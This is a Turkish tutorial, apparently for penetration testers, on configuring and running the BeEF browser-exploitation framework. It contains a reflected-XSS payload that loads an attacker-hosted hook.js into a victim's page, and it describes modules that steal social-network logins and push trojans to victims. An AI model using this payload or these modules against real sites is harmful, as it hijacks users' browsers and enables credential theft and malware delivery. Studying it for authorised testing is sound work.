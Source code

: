 ## BeEF - The Browser Exploitation Framework

BeEF istemci taraflı çaşışan bir penetrasyon test aracıdır, kullanıcıların tarayıcılarını ele geçirerek javascript kodları çalıştırılabilir, tarayıcısı anlık olarak izlenebilir, yada farklı saldırı vektörleri için temel yapıyı oluşturabilir. BeEF 3 katmandan oluşur;

```bash
1. Saldırgan veya Saldırganların kişisel bilgisayarları
2. BeEF’in kurulu olduğu master server
3. Kurbanlar
```

Kurbanlar BeEF in attığı oltaya düştüğünde BeEF kurbanlardan bir çok veri çekmeye başlar ve verileri BeEF in kurulu olduğu ana sunucuya aktarır saldırgan ise kendi kişisel bilgisayarından BeEF in kurulu olduğu sunucuya BeEF arayüzünden bağlanarak kurbanların bilgilerini elegeçirebilir, javascript kodları çalıştırabilir, mesaj gönderebilir. (Zaaten javascript kodu çalıştırabiliyorsak yapabileceklerimizin bir sınırı yoktur :) )

### Konfigrasyon

BeEF’in konfigürasyon dosyası default olarak /etc/beef-xss dizinindeki config.yaml dosyasıdır. **/etc/beef-xss/config.yaml** dosyasını herhangi bir metin editörü ile açıp aşağıdaki adımlara göre konfigürasyon yapmalısınız.

#### Web Arayüz Ağ Kısıtlamaları

```bash
restrictions:
	permitted_hooking_subnet: "0.0.0.0/0"
	permitted_ui_subnet: "127.0.0.1/32"
```

**permitted_hooking_subnet:** Bu değişken, hangi subnetten BeEF’in arayüzüne hook yapılabileceğini belirler. Bu ayar, BeEF’in kurbanlara ulaşması için önemlidir.
**permitted_ui_subnet:** Bu değişken, hangi subnetten BeEF’in web arayüzüne giriş yapılabileceğini belirler. Bu ayar saldırganın web arayüz paneline ulaşması için önemlidir.

#### Web Sunucusu

```bash
http:
	debug: false
	host: "0.0.0.0"
	port: "3000"

	# Proxy
	public: "8.7.6.5"
	public_port: "3000"

	# Domain Name Server
	dns_host: "localhost"
	dns_port: 53

	# Web Admin Interface
	web_ui_basepath: "/ui"

	# Hook
	hook_file: "/hook.js"
	hook_session_name: "BEEFHOOK"
	session_cookie_name: "BEEFSESSION"
```

**debug:** Oluşacak hataların detaylı olarak çıktıları alınmak isteniyorsa bu değişken true olarak ayarlanmalıdır.

**host:** BeEF’in kurulu olduğu master server’ın IP adresi girilmelidir.

**port:** BeEF’in ayağa kaldırılacağı port. 3000 gibi popüler uygulamalar tarafından kullanılmayan bir port seçmek mantıklı olacaktır. Zira 80, 22 gibi portlar seçilirse sunucuda o portu kullanan diğer hizmetler ile çakıştığından sıkıntı yaşanacaktır. public ve public_port değişkenleri ise varsa bir vekil sunucu girilmesi içindir. Bu değişkenlerin set edilmesi zorunlu değildir. dns_host ve dns_port değişkenleri adından da anlaşılacağı üzere DNS host ve portunu girmemiz gereken değişkenlerdir. web_ui_basepath değişkeni, BeEF’in admin arayüzünün görüüntülenmesi istenen path değişkenidir.

**hook_file:** XSS zafiyeti bulunan hedefe entegre edilmesi gereken uzak JavaScript dosyasının yoludur.

#### Veri Tabanı

BeEF öntanımlı olarak SQLite kullanır ve veritabanı dosyası şuradadır: /var/lib/beef-xss/beef.db. Ancak MySQL ve PostgreSQL’de desteklenmektedir. Aşağıdaki ayarlardan dilerseniz veritabanını değiştirebilirsiniz. Dikkat edilmesi gereken bir nokta var; eğer Sqlite dışındaki seçeneklerden biri kullanılacak ise kullanılacak veritabanının adaptörü Gem ile yüklenmelidir.

Adımlar;

```bash
BeEF’in kurulu olduğu dizine geçmek; cd /usr/share/beef-xss
MySQL adaptörünün kurulumu; gem install "dm-mysql-adapter"
PostgreSQL adaptörünün kurulumu; gem install "dm-postgres-adapter"
```
```bash
database:
	driver: "sqlite"

	db_file: "db/beef.db"

	db_host: "localhost"
	db_port: 3306
	db_name: "beef"
	db_user: "beef"
	db_passwd: "beef"
	db_encoding: "UTF-8"
```

**driver:** Kullanılması istenilen veritabanı girilmelidir. Girilebilir değerler: sqlite, mysql, postgres
**db_file:** Eğer driver Sqlite seçilmiş ise veritabanı olarak kullanılacak dosyanın yolu. Diğer değişkenler ise eğer MySQL veya PostgreSQL seçilmiş ise bağlantı için gereken değerlerin girilmesi içindir. Eğer drive sqlite seçilmiş ise bu değerler boş bırakılabilir.

#### Yetkilendirme

BeEF’in web admin arayüzüne girmek için gerekli kullanıcı adı ve parola bu bölümde tanımlanır.

```bash
credentials:
	user:   "beef"
	passwd: "beef"
```
### BeEF’i Çalıştırmak

Bir önceki bölümde gerekli konfigürasyonu yaptıktan sonra BeEF’i ayağa kaldırmamız gerekiyor. Bunun birçok 
yolu var. Eğer Kali Linux kullanıyorsanız “Applications > Exploitation” menüzü altındaki “beef xss framework” uygulamasına tıklamanız yeterli. Gerekli servisleri başlatıp browser’da admin arayüzünü açacaktır. Kurulumu manuel olarak farklı bir sunucuya yaptıysanız 2 farklı şekilde çalıştırabilirsiniz. BeEF servisini start ederek,
BeEF’in Ruby dosyasını çalıştırarak



Kurulumu manuel olarak farklı bir sunucuya yaptıysanız tavsiyem 2. yöntem ile çalıştırmanızdır. BeEF’in Ruby dosyasından çalıştırmak için yapmanız gerekenler; BeEF’in kurulu olduğunuz dizine geçmek; cd /usr/share/beef-xs
BeEF’i çalıştırmak için; `./beef`



### XSS Zafiyeti ile BeEF Hook Dosyasını Tetiklemek

Kurulumdan sonra hook dosyanıza aşağıdaki şemadan ulaşabilirsiniz;

> http://{host}:{port}{hook_file} yani http://1.2.3.4:3000/hook.js

Hook dosyasının içerisinde kurbanı BeEF’in ağına düşürecek zararlı JavaScript kodu bulunmaktadır. XSS zafiyeti bulunan sistemde bir şekilde hook dosyası çağrılır ve kurban tarafından tetikletilir ise kurban BeEF’in ağına düşmüş olacaktır.

Örnek olarak aşağıdaki adresde Reflected XSS olduğunu varsayalım;

`http://test.com/ara.php?k=deneme` Buradaki XSS zafiyetine aşağıdaki şekilde hook dosyasını çağırtabiliriz;

`http://test.com/ara.php?k=<script src="http://1.2.3.4:3000/hook.js"></script>`



### Web Admin Arayüzü

Web admin arayüzüne yukarıda yapılan ayarlar sonucunda şu şemadan ulaşılabilir;

> http://{host}:{port}{web_ui_basepath}/panel

**Yeşil:** Komut zombi browserda çalıştırılabilir ve kurbanın bundan haberi olmaz.
**Turuncu:** Komut zombi browserda çalıştırılabilir ama kurbanın haberi olabilir.
**Beyaz:** Komutun çalıştırılabilme durumu henüz tespit edilemedi.
**Kırmızı:** Komut zombi üzerinde çalıştırılamaz.



1. Detail
    Zombinin sistemi hakkında bilgilerin olduğu sekmedir.

2. Logs
    Zombi browser üzerinde yapılmış işlemlerin zaman damgalı şekilde loglarının olduğu sekmedir.

3. Commands
    Zombi browser üzerinde komut çalıştırabileceğimiz sekmedir.

4. Rider
    Zombi browser üzerinden request gönderebileceğimiz sekmedir. “Forge Request” sekmesinden request yapabilir, 
    yapılan requestleri “History” sekmesinden görüntüleyebilirsiniz.

5. Network
    Zombi ile saldırgan arasındaki ağ bağlantısının görselleştirilmiş halinin olduğu sekmedir.

  

### BAZI KOMUTLAR

```bash
Create Alert Dialog -> Kurbana Alert Gönderir.
Raw JavaScript      -> JavaScript Enjekte Eder.
Spyder Eye          -> ScreenShot Alır.
Pretty Theft        -> Sosyal Ağ Çalma.
Fake Notification   -> Trojan Sızdırmak (Kurbana İndittirmek).
```

